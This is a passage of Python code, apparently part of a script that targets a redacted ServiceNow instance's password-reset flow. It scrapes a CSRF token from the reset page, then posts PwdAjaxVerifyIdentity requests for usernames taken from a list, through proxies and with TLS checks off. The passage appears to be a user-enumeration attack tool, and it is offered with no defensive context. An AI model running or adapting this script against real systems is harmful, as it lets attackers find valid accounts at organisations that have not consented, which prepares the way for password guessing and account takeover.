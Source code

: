             "Accept": "*/*",
            "Accept-Language": "en-US,en;q=0.5",
            "Accept-Encoding": "gzip, deflate",
            "Connection": "close",
            "Cookie": "glide_user_route="+glide_user_route+"; JSESSIONID="+JSESSIONID+"; __CJ_g_startTime=\'"+startTime[:-6]+"\'"
            }

        try:
            # s = requests.Session()
            # s.verify = False
            r = requests.get(url, headers=headers1, timeout=20, verify=False, proxies=proxies)
            obj1 = re.findall(r"pwd_csrf_token", r.text)
            obj2 = re.findall(r"fireAll\(\"ck_updated\"", r.text)
            tokenIndex = (r.text.index(obj1[0]))
            startTime2 = (str(time.time_ns()))
            # userTokenIndex = (r.text.index(obj2[0]))
            # userToken = (r.text[userTokenIndex+23 : userTokenIndex+95])
            token = (r.text[tokenIndex+45:tokenIndex+73])
            url = "http://<redacted>/xmlhttp.do"
            headers2 = {
                "Host": "<redacted>",
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0",
                "Accept": "*/*",
                "Accept-Language": "en-US,en;q=0.5",
                "Accept-Encoding": "gzip, deflate",
                "Referer": "http://<redacted>/$pwd_reset.do?sysparm_url=ss default",
                "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
                "Content-Length": "786",
                "Origin": "http://<redacted>/",
                "Connection": "keep-alive",
                # "X-UserToken":""+userToken+"",
                "Cookie": "glide_user_route="+glide_user_route+";JSESSIONID="+JSESSIONID+"; __CJ_g_startTime=\'"+startTime2[:-6]+"\'"
                }

            data = {
                "sysparm_processor": "PwdAjaxVerifyIdentity",
                "sysparm_scope": "global",
                "sysparm_want_session_messages": "true",
                "sysparm_name":"verifyIdentity",
                "sysparm_process_id":"c6b0c20667100200a5a0f3b457415ad5",
                "sysparm_processor_id_0":"fb9b36b3bf220100710071a7bf07390b",
                "sysparm_user_id_0":""+users.strip()+"",
                "sysparm_identification_number":"1",
                "sysparam_pwd_csrf_token":""+token+"",
                "ni.nolog.x_referer":"ignore",
                "x_referer":"$pwd_reset.do?sysparm_url=ss_default"
                }
